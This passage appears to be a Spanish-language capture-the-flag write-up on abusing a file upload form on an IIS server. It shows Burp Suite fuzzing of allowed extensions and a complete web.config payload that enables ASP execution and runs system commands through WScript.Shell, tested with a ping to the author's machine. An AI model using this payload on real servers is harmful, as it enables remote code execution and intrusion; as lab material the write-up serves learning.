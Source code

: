 ![](https://lh3.googleusercontent.com/wDDrpAEtksPT9x0gzyAuNxjcLhGy9gyRQskYvykwTj7JD8C1hc0ymD2_J0MgqPdNberFJ_mxfRpFPzFfSnGZGMO3FDvxp8XS1rWhGHYCBGJBUmUuOeaNeJvwJH4SQFKKA70pNNrp)

Cargo el diccionario con las extensiones.

![](https://lh3.googleusercontent.com/Jx16cbk0JQOhEi6jHT33t2SfHVmE3RepAP4K6TTIpc5esdXZrtsFh5esPCZoHpmFJGrDrpj2ftVrHqXHr3nuAZbVRB35iskhllk5FDAnE2ONN_vK_epEPGHuh1hZ9C_kqppSwkFl)

Creo un expresión regular  para solo mostrarme los archivos que se logren subir al servidor. (solo selecciona la parte que te interesa, ya burpsuite te genera la expresión regular automáticamente)

![](https://lh4.googleusercontent.com/163LDKt1s31gBEy04rCbEDXMlCWk93CgGQslQVWSGSIVgl7PRiOlJDWuzm8MBW09LfejJi7X6_dHxxU9RoXP7phn6nIuOrqpDUmYlrrwYdicYVqJYIF31mdQEZB1_qWCSthY5f07)

Comienzo el ataque.

![](https://lh3.googleusercontent.com/R9YLnXFFG3-zID1xsx2-eOc95X9lpqu5syaHbZwT8bHyDS5A-eCluuEAxlfE3ejqPZ40U9eJzayq5D_5ZbjyEmtdOPYPXGug29wPeRI5kuCKKD-WUMMuczjzhwsEgnnj7bBl9lSf)

Y obtenemos las extensiones de los archivos que podemos subir al servidor. El que mas me llamo la atención fue el `.config` esto debido a que existe una forma de ejecutar comandos a nivel de sistema utilizando este tipo de archivos.

**¿Que es un archivo web.config?**
Es un archivo básico de configuración para toda aplicación web asp.net basada en **Windows**. Mediante un etiquetado **XML**, se configura todo lo referente a seguridad, sesiones, compilación , variables de sistema, entre otras. 

Lo que significa que nosotros podemos crear un archivo **web.config** que dentro de este se ejecute una serie de instrucciones para que cuando se interpreten el archivo logremos ejecutar comando a nivel de sistema.

Para lograr esto crearemos el archivo **web.config** con la siguiente estructura:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("ping 10.10.14.28")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```
Para esta primera prueba haremos un ping a mi máquina.
